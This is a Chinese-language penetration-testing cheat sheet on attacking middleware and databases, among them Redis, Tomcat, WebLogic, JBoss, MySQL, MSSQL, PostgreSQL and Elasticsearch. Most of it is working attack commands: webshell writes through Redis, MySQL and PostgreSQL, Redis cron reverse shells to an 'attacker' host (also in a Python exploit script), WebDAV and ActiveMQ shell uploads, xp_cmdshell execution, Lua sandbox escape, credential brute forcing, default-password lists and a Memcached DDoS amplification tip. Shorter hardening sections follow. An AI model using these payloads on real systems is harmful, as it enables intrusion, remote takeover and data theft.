

# 中间件与数据库安全

> 从Redis到MySQL，从Tomcat到Nginx，全面覆盖中间件安全

---

## 一、中间件安全基础

### 1.1 常见中间件

| 类型 | 产品 | 默认端口 | 常见漏洞 |
|:-----|:-----|:---------|:---------|
| Web服务器 | Nginx/Apache/IIS | 80/443 | 路径遍历/配置错误 |
| 应用服务器 | Tomcat/JBoss/WebLogic | 8080/8009 | 弱密码/反序列化 |
| 缓存 | Redis/Memcached | 6379/11211 | 未授权访问 |
| 消息队列 | RabbitMQ/Kafka | 5672/9092 | 未授权/信息泄露 |
| 数据库 | MySQL/MSSQL/PostgreSQL | 3306/1433/5432 | 弱密码/SQL注入 |
| NoSQL | MongoDB/Elasticsearch | 27017/9200 | 未授权/注入 |
| 反向代理 | Nginx/HAProxy | 80/443 | SSRF/配置错误 |
| 注册中心 | ZooKeeper/Eureka | 2181/8761 | 未授权访问 |

### 1.2 攻击面



---

## 二、Web服务器

### 2.1 Nginx

```nginx
# 常见配置错误
# 1. 路径遍历
location /static/ {
    alias /var/www/static/;          # 安全
    alias /var/www/static;           # ❌ 可遍历到上级目录
    # /static../ → /var/www/stati../ 
}

# 2. SSRF
location /proxy {
    proxy_pass $arg_url;             # ❌ SSRF
    # /proxy?url=http://127.0.0.1:8080/admin
}

# 3. 信息泄露
server_tokens off;                   # ✅ 隐藏版本
add_header X-Frame-Options DENY;     # ✅ 点击劫持防护

# 4. CRLF注入
location /redirect {
    return 302 $arg_to;              # ❌ CRLF注入
}

# Nginx漏洞
# CVE-2017-7529 (整数溢出)
# CVE-2021-23017 (DNS解析)
# CVE-2013-4547 (URI解析)
# CVE-2019-20372 (目录遍历)

# 路径遍历
# /static../app/config.php
# /static%2e%2e/app/config.php
```

### 2.2 Apache

```apache
# 目录遍历
Options +Indexes                    # ❌ 目录列表
<Directory "/var/www/html">
    Options -Indexes                # ✅ 关闭目录列表
</Directory>

# 文件类型解析漏洞
AddHandler php5-script .php
AddType application/x-httpd-php .php

# Apache漏洞
# CVE-2017-9798 (Optionsbleed)
# CVE-2021-41773 (路径遍历 2.4.49)
# CVE-2021-42013 (路径遍历 2.4.50)
# CVE-2019-0211 (提权)

# 利用
curl -v "http://target/cgi-bin/.%2e/%2e%2e/usr/bin/id"
curl -v "http://target/icons/.%2e/%2e%2e/conf/httpd.conf"
```

### 2.3 IIS

```bash
# IIS漏洞
# CVE-2017-7269 (WebDAV RCE)
# MS15-034 (HTTP.sys RCE)
# 短文件名泄露
# PUT漏洞
# ASP.NET ViewState反序列化

# 短文件名泄露
http://target/*~1*/.aspx
http://target/l0g1n~1*/.aspx

# WebDAV PUT上传
curl -X PUT -d "<?php system($_GET['cmd']);?>" http://target/shell.txt
curl -X MOVE -H "Destination: http://target/shell.asp" http://target/shell.txt
```

---

## 三、应用服务器

### 3.1 Tomcat

```bash
# 默认路径
# /manager/html       - Tomcat管理后台
# /manager/status     - 状态监控
# /host-manager/html  - 虚拟主机管理
# /examples/          - 示例应用

# 默认凭据
admin:admin
tomcat:tomcat
tomcat:s3cret
admin:password
admin:tomcat

# 漏洞
# CVE-2017-12615 (PUT上传)
# CVE-2017-12617 (PUT+JSP)
# Ghostcat (CVE-2020-1938)

# CVE-2017-12615 - PUT上传
curl -X PUT "http://target:8080/test.jsp%20" -d "payload"
curl -X PUT "http://target:8080/test.jsp::$DATA" -d "payload"

# Ghostcat (AJP协议)
python3 ghostcat.py target 8009 -p "/etc/passwd"
python3 ghostcat.py target 8009 -c "whoami"

# 爆破管理后台
hydra -l tomcat -P passwords.txt target http-post-form "/manager/html:j_username=^USER^&j_password=^PASS^:F=Login failed"

# 部署WAR包
# 登录 manager → Deploy → 上传WAR
# 或 Maven插件
mvn tomcat7:deploy -Dmaven.tomcat.url=http://target/manager/text
```

### 3.2 JBoss

```bash
# 默认路径
# /jmx-console/       - JMX控制台
# /web-console/       - Web控制台
# /admin-console/     - 管理控制台
# /invoker/JMXInvokerServlet

# 漏洞
# CVE-2017-12149 (反序列化)
# CVE-2017-7504 (反序列化)
# CVE-2015-7501 (JMXInvoker)

# CVE-2017-12149 检测
curl -v "http://target:8080/invoker/readonly"
curl -v "http://target:8080/invoker/EJBInvokerServlet"

# 部署WAR
# 通过JMX控制台 → jboss.system:service=MainDeployer → deploy
# 或 HTTP POST上传
curl -F "file=@shell.war" http://target/jmx-console/HtmlAdaptor
```

### 3.3 WebLogic

```bash
# 默认路径
# /console/           - 管理控制台
# /wls-wsat/          - Web服务
# /bea_wls_internal/  - 内部API

# 默认凭据
weblogic:welcome1
weblogic:weblogic
system:password

# 漏洞
# CVE-2017-10271 (XMLDecoder RCE)
# CVE-2018-2628 (T3反序列化)
# CVE-2019-2725 (Async RCE)
# CVE-2019-2729 (XMLDecoder)
# CVE-2020-2551 (IIOP反序列化)
# CVE-2020-14882 (未授权访问)
# CVE-2020-14883 (权限提升)

# CVE-2017-10271 检测
curl -v "http://target:7001/wls-wsat/CoordinatorPortType"

# CVE-2020-14882 未授权
curl -v "http://target:7001/console/css/%252e%252e%252fconsole.portal"

# T3协议扫描
nmap -p7001 --script weblogic-t3-info target
```

---

## 四、缓存中间件

### 4.1 Redis

```bash
# 未授权访问
redis-cli -h target
redis-cli -h target -p 6379 -a password

# 信息收集
redis> INFO
redis> CONFIG GET *
redis> KEYS *
redis> DBSIZE
redis> ACL LIST

# 写SSH密钥
redis> CONFIG GET dir
redis> CONFIG SET dir /root/.ssh
redis> CONFIG SET dbfilename authorized_keys
redis> SET key "ssh-rsa AAAAB3NzaC1yc2E..."
redis> SAVE

# 写WebShell
redis> CONFIG SET dir /var/www/html
redis> CONFIG SET dbfilename shell.php
redis> SET x "<?php system($_GET['cmd']);?>"
redis> SAVE

# 写计划任务
redis> CONFIG SET dir /var/spool/cron/crontabs/
redis> CONFIG SET dbfilename root
redis> SET x "\n*/1 * * * * bash -i >& /dev/tcp/attacker/4444 0>&1\n"
redis> SAVE

# 主从复制RCE
git clone https://github.com/Ridter/redis-rce
python3 redis-rce.py -r target -p 6379 -L attacker -P 8888 -f exp.so

# 批量扫描
cat ips.txt | while read ip; do
    timeout 3 redis-cli -h $ip INFO | grep "redis_version" && echo "$ip - vulnerable"
done
```

### 4.2 Memcached

```bash
# 未授权访问
echo "stats" | nc -w 3 target 11211
echo "stats items" | nc -w 3 target 11211
echo "stats cachedump 1 100" | nc -w 3 target 11211

# 获取key
echo "get key_name" | nc -w 3 target 11211

# 批量扫描
nmap -p11211 --script memcached-info target

# DDoS反射放大
# 伪造源IP为受害者
echo -e -n "stats\r\n" | nc -u target 11211
# 响应比请求大10000倍
```

---

## 五、消息队列

### 5.1 RabbitMQ

```bash
# 默认路径
# http://target:15672/  - 管理控制台(guest/guest)
# AMQP: 5672

# 漏洞
# CVE-2019-11287 (Cookie伪造)
# 弱密码爆破

hydra -l guest -P passwords.txt target -s 15672 http-get /
```

### 5.2 Kafka

```bash
# Zookeeper + Kafka
# 默认端口: 9092 (Kafka) / 2181 (ZooKeeper)

# 未授权访问
echo "dump" | nc target 2181
# 列出所有broker和topic

# 消费消息
kafka-console-consumer --bootstrap-server target:9092 --topic sensitive-topic --from-beginning
```

### 5.3 ActiveMQ

```bash
# 默认路径
# http://target:8161/admin  - 管理控制台
# OpenWire: 61616

# 漏洞
# CVE-2015-1830 (目录遍历)
# CVE-2016-0782 (路径遍历)

# 上传webshell
curl -X PUT -d "shell content" "http://target:8161/fileserver/shell.txt"
curl -X MOVE -H "Destination: file:///opt/apache-activemq/webapps/api/shell.jsp" "http://target:8161/fileserver/shell.txt"
```

---

## 六、数据库安全

### 6.1 MySQL

```sql
-- 信息收集
SELECT VERSION();
SELECT @@basedir;
SELECT @@datadir;
SELECT @@plugin_dir;
SELECT user,host,authentication_string FROM mysql.user;
SELECT * FROM mysql.user WHERE user = 'root'\G
SELECT grantee,privilege_type,is_grantable FROM information_schema.user_privileges;

-- 文件读取
SELECT LOAD_FILE('/etc/passwd');
SELECT LOAD_FILE('/var/www/html/config.php');

-- 写WebShell
SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "/var/www/html/shell.php";
SELECT LOAD_FILE('/tmp/test.txt') INTO DUMPFILE '/var/www/html/test.txt';

-- UDF提权
-- 需要plugin目录可写
SELECT @@plugin_dir;
CREATE FUNCTION sys_exec RETURNS INTEGER SONAME 'udf.so';
SELECT sys_exec('id > /tmp/out.txt');

-- MySQL漏洞
-- CVE-2012-2122 (认证绕过)
-- CVE-2016-6662 (提权)
-- CVE-2016-6663 (提权)

-- 弱密码爆破
hydra -L users.txt -P passwords.txt mysql://target
```

### 6.2 MSSQL

```sql
-- 信息收集
SELECT @@VERSION;
SELECT DB_NAME();
SELECT name FROM sys.databases;
SELECT name FROM sys.syslogins;
SELECT name,is_disabled FROM sys.server_principals WHERE type='S';

-- xp_cmdshell
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell 'whoami';
EXEC xp_cmdshell 'powershell -Enc ...';

-- OLE Automation
EXEC sp_configure 'Ole Automation Procedures', 1;
RECONFIGURE;
DECLARE @shell INT;
EXEC SP_OACREATE 'wscript.shell',@shell OUTPUT;
EXEC SP_OAMETHOD @shell,'run',null,'cmd.exe /c whoami > C:\temp\out.txt';

-- Agent Job
EXEC msdb.dbo.sp_add_job @job_name='ShellJob';
EXEC msdb.dbo.sp_add_jobstep @job_name='ShellJob',@step_name='CMD',@command='whoami';
EXEC msdb.dbo.sp_start_job @job_name='ShellJob';

-- 链接服务器横向
SELECT * FROM sys.servers;
EXEC ('SELECT @@VERSION') AT [LINKED_SERVER];
EXEC ('xp_cmdshell ''whoami''') AT [LINKED_SERVER];

-- 密码爆破
cme mssql target -u sa -P passwords.txt
```

### 6.3 PostgreSQL

```sql
-- 信息收集
SELECT version();
SELECT current_database();
SELECT current_user;
SELECT usename,passwd FROM pg_shadow;
SELECT datname FROM pg_database;

-- 命令执行 (需超级用户)
CREATE EXTENSION IF NOT EXISTS dblink;
SELECT * FROM dblink('host=attacker dbname=template1 user=postgres','SELECT 1') AS t(id int);

-- 文件读取
CREATE TABLE temp (data text);
COPY temp FROM '/etc/passwd';
SELECT * FROM temp;

-- 文件写入
COPY (SELECT '<?php system($_GET["cmd"]);?>') TO '/var/www/html/shell.php';

-- CVE-2019-9193 (COPY FROM PROGRAM)
COPY temp FROM PROGRAM 'whoami';

-- 弱密码
hydra -L users.txt -P passwords.txt postgres://target
```

### 6.4 MongoDB

```javascript
// 连接
mongo target:27017
mongo "mongodb://target:27017"

// 信息收集
db.version()
db.hostInfo()
db.adminCommand({listDatabases: 1})
use admin
db.system.users.find()
db.runCommand({connectionStatus: 1})

// 未授权访问检测
nmap -p27017 --script mongodb-info target

// 爆破
hydra -L users.txt -P passwords.txt mongodb://target

// CVE-2019-10758 (注入)
// CVE-2021-22945 (URI注入)
```

### 6.5 Elasticsearch

```bash
# 信息收集
curl http://target:9200/
curl http://target:9200/_cat/indices?v
curl http://target:9200/_cat/nodes?v
curl http://target:9200/_cluster/health?pretty

# 数据泄露
curl http://target:9200/_all/_search?pretty
curl http://target:9200/.security/_search?pretty

# CVE-2014-3120 (RCE)
# CVE-2015-1427 (Groovy脚本)

# CVE-2014-3120 利用
curl -X POST "http://target:9200/_search?pretty" -d '{
    "script_fields": {"test": {"script": "java.lang.Runtime.getRuntime().exec('id')"}}
}'
```

### 6.6 RedisGraph (CVE-2022-0543)

```bash
# Lua沙箱绕过
redis-cli
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

---

## 七、注册中心

### 7.1 ZooKeeper

```bash
# 默认端口: 2181
echo "env" | nc target 2181
echo "stat" | nc target 2181
echo "dump" | nc target 2181
echo "conf" | nc target 2181

# 四字命令
# ruok - 是否运行
# stat - 状态
# envi - 环境
# dump - 会话
# cons - 连接
# wchs - 监控

# 未授权访问
nmap -p2181 --script zookeeper-info target
```

### 7.2 Consul

```bash
# 默认端口: 8500
curl http://target:8500/v1/agent/members
curl http://target:8500/v1/catalog/services
curl http://target:8500/v1/kv/?keys

# RCE (注册服务执行脚本)
curl -X PUT -d '{"ID":"test","Name":"test","Address":"127.0.0.1","Port":80,"Check":{"Args":["cmd.exe","/c","calc.exe"],"Interval":"10s"}}' http://target:8500/v1/agent/service/register
```

### 7.3 Eureka

```bash
# 默认端口: 8761
curl http://target:8761/eureka/apps

# 注册恶意服务
# 利用HTTP header注入
```

---

## 八、配置审计清单

### 8.1 Redis安全配置

```bash
# redis.conf
bind 127.0.0.1                    # 绑定本地
requirepass strongpassword        # 设置密码
rename-command FLUSHALL ""        # 禁用危险命令
rename-command FLUSHDB ""
rename-command CONFIG ""
rename-command EVAL ""
rename-command EVALSHA ""
rename-command DEBUG ""
rename-command SHUTDOWN ""
rename-command SCRIPT ""
rename-command SLAVEOF ""
rename-command REPLICAOF ""
rename-command KEYS ""
rename-command SAVE ""
rename-command BGSAVE ""
rename-command BGREWRITEAOF ""

port 0                            # 关闭TCP端口(仅Unix socket)
unixsocket /var/run/redis/redis.sock
unixsocketperm 700

# 安全模式
enable-protected-configs yes
enable-debug-command no
enable-module-command no

# ACL (Redis 6+)
ACL SETUSER default off
ACL SETUSER admin on >password +@all -@dangerous
ACL SETUSER app on >app_pass +@read +@write ~*
```

### 8.2 MySQL安全配置

```sql
-- 移除匿名用户
DELETE FROM mysql.user WHERE user='';
-- 移除测试数据库
DROP DATABASE IF EXISTS test;
-- 移除远程root访问
DELETE FROM mysql.user WHERE user='root' AND host NOT IN ('localhost','127.0.0.1','::1');
-- 密码策略
SET GLOBAL validate_password_policy=STRONG;
-- 限制授权
REVOKE FILE, PROCESS, SUPER, SHOW DATABASES ON *.* FROM 'user'@'host';
-- 审计日志
INSTALL PLUGIN audit_log SONAME 'audit_log.so';
```

### 8.3 Tomcat安全配置

```xml
<!-- conf/tomcat-users.xml -->
<!-- 移除默认用户 -->
<tomcat-users>
    <!-- 创建最小权限用户 -->
    <role rolename="manager-gui"/>
    <user username="admin" password="strongpass" roles="manager-gui"/>
</tomcat-users>

<!-- conf/server.xml -->
<!-- 关闭AJP(如果不用) -->
<Connector port="8009" protocol="AJP/1.3" redirectPort="8443" />
<!-- 或限制AJP地址 -->
<Connector port="8009" protocol="AJP/1.3" address="127.0.0.1" />

<!-- 禁用不安全的HTTP方法 -->
<security-constraint>
    <web-resource-collection>
        <web-resource-name>restricted</web-resource-name>
        <url-pattern>/*</url-pattern>
        <http-method>PUT</http-method>
        <http-method>DELETE</http-method>
        <http-method>TRACE</http-method>
    </web-resource-collection>
    <auth-constraint/>
</security-constraint>
```

---

## 九、自动化扫描

### 9.1 工具

```bash
# Nmap脚本
nmap -sV -p 80,443,8080,8443 --script=http-enum target
nmap -sV -p 6379 --script=redis-info target
nmap -sV -p 27017 --script=mongodb-info target
nmap -sV -p 9200 --script=http-vuln-cve2014-3120 target

# Nuclei模板
nuclei -u target -t ~/nuclei-templates/misconfiguration/
nuclei -u target -t ~/nuclei-templates/vulnerabilities/
nuclei -u target -t ~/nuclei-templates/exposures/

# CrackMapExec
cme smb target -u user -p pass -M enum_av
cme smb target -u user -p pass -M mimikatz
cme ssh target -u user -p pass
cme mssql target -u sa -p password
cme mysql target -u root -p password
```

### 9.2 漏扫

```bash
# OpenVAS
gvm-start
# 配置并扫描

# Metasploit
msfconsole
msf6 > search type:exploit name:tomcat
msf6 > search type:exploit name:weblogic
msf6 > search type:exploit name:jboss

# Vulmap
python3 vulmap.py -u http://target:8080
```

---

## 十、漏洞代码示例

### 10.1 Redis利用脚本

```python
import redis

def redis_rce(host, port, lhost, lport):
    r = redis.Redis(host=host, port=port, socket_timeout=5)
    
    # 配置cron反弹shell
    payload = '\n*/1 * * * * bash -i >& /dev/tcp/%s/%s 0>&1\n' % (lhost, lport)
    try:
        r.config_set('dir', '/var/spool/cron/crontabs/')
        r.config_set('dbfilename', 'root')
        r.set('x', payload)
        r.save()
        print("Payload sent! Check your listener.")
    except:
        print("Try other exploits...")

redis_rce('target', 6379, 'attacker', 4444)
```

### 10.2 WebLogic扫描

```python
import requests

def check_weblogic(host, port):
    paths = [
        '/console/login/LoginForm.jsp',
        '/wls-wsat/CoordinatorPortType',
        '/_async/AsyncResponseService',
        '/uddiexplorer/SearchPublicRegistry.jsp',
        '/bea_wls_internal/',
    ]
    
    for path in paths:
        try:
            r = requests.get(f'http://{host}:{port}{path}', timeout=5)
            if r.status_code == 200:
                print(f"[+] Found: {path}")
        except:
            pass

check_weblogic('target', 7001)
```

---

## 十一、防御加固

### 11.1 通用加固

| 措施 | 说明 |
|:-----|:-----|
| 最小权限原则 | 应用使用最小必要权限 |
| 网络隔离 | 仅暴露必要端口 |
| 版本更新 | 及时更新中间件版本 |
| 配置审计 | 定期检查配置安全性 |
| 日志监控 | 记录和审计访问日志 |
| 认证加强 | 强密码+MFA |
| 加密传输 | TLS加密通信 |
| WAF防护 | 部署Web应用防火墙 |

### 11.2 扫描与加固脚本

```bash
#!/bin/bash
# middleware_scan.sh
echo "Scanning common middleware..."
TARGET=$1

for port in 80 443 8080 8443 6379 11211 27017 9200 2181 8500 5672 15672; do
    nc -zv -w2 $TARGET $port 2>&1 | grep "succeeded" && echo "Port $port open"
done

# Redis
redis-cli -h $TARGET -p 6379 INFO 2>/dev/null | grep "redis_version" && echo "Redis found"

# MongoDB
echo "db.version()" | mongo $TARGET:27017 2>/dev/null | grep -v "MongoDB" && echo "MongoDB found"

# Elasticsearch
curl -s http://$TARGET:9200/ 2>/dev/null | grep "cluster_name" && echo "Elasticsearch found"
```

---

## 十二、速查总表

### 12.1 默认端口速查

| 服务 | 端口 | 默认凭据 |
|:-----|:----|:---------|
| Tomcat | 8080/8009 | admin:admin, tomcat:tomcat |
| WebLogic | 7001/7002 | weblogic:welcome1 |
| JBoss | 8080/9990 | admin:admin |
| Redis | 6379 | 无 |
| Memcached | 11211 | 无 |
| MySQL | 3306 | root:空 |
| MSSQL | 1433 | sa:空 |
| PostgreSQL | 5432 | postgres:postgres |
| MongoDB | 27017 | 无 |
| Elasticsearch | 9200/9300 | 无 |
| ZooKeeper | 2181 | 无 |
| RabbitMQ | 5672/15672 | guest:guest |

### 12.2 快速检测命令

```bash
# Redis未授权
redis-cli -h target INFO

# MySQL弱密码
mysql -h target -u root -p''

# MongoDB未授权
mongo target:27017

# Elasticsearch
curl target:9200/

# Tomcat弱密码
curl target:8080/manager/html

# WebLogic
curl target:7001/console/

# JBoss
curl target:8080/jmx-console/
```

### 12.3 推荐工具

| 工具 | 用途 |
|:-----|:-----|
| Redis-CLI | Redis操作 |
| Nmap | 端口扫描+脚本 |
| Nuclei | 漏洞扫描 |
| CrackMapExec | 批量验证 |
| Hydra | 密码爆破 |
| Metasploit | 漏洞利用 |
| Vulmap | Web应用扫描 |

---

> **参考资源**
>
> - OWASP Middleware Security
> - Exploit-DB Database
> - MITRE ATT&CK
> - NVD Database
> - HackerOne Reports
